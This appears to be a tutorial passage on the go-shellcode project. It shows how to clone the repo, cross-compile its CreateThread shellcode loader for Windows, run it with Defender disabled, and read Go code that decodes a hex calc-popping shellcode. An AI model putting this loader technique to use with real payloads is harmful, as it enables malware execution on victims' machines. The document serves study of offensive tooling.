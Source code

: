 ```
root# git clone https://github.com/Ne0nd0g/go-shellcode.git
root# cd go-shellcode
```

Let's first validate if one can work on windows, compile the classic `CreateThread` method

```
root:~/go-shellcode# GOOS=windows GOARCH=amd64 go build -o CreateThread.exe cmd/CreateThread/main.go
root:~/go-shellcode# ls -lh CreateThread.exe
-rwxr-xr-x 1 root root 2.5M Jul 25 13:46 CreateThread.exe
root:~/go-shellcode# file CreateThread.exe
CreateThread.exe: PE32+ executable (console) x86-64, for MS Windows, 15 sections
```

On windows, with defender off, execute the program we see a caculator pops up, showing this code works!

![calc](cacl.png)

Reviewing the code of `CreateThread`, it first decode the hex and return `shellcode` which is `[]byte` type and an `errShellcode` which is `error` type 

``` go
// Pop Calc Shellcode
    shellcode, errShellcode := hex.DecodeString("505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3")
    if errShellcode != nil {
	    log.Fatal(fmt.Sprintf("[!]there was an error decoding the string to a hex byte array: %s", errShellcode.Error()))
    }
...
```
